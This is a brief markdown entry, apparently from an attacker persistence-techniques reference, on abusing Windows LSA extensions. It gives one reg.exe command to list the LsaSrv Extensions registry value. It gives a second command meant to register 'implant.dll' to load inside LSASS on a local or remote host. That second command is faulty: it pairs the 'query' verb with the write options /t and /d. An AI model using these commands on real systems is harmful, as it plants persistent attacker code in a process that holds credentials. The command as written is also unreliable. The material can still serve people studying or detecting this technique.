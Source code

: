 # LSA Extension

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\LsaExtensionConfig\LsaSrv /v Extensions /f
```

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Control\LsaExtensionConfig\LsaSrv /v Extensions /t REG_MULTI_SZ /d "lsasrv.dll efslsaext.dll implant.dll" /f
```

---
## References

- [Persistence Info: LSA Extension](https://persistence-info.github.io/Data/lsaaextension.html)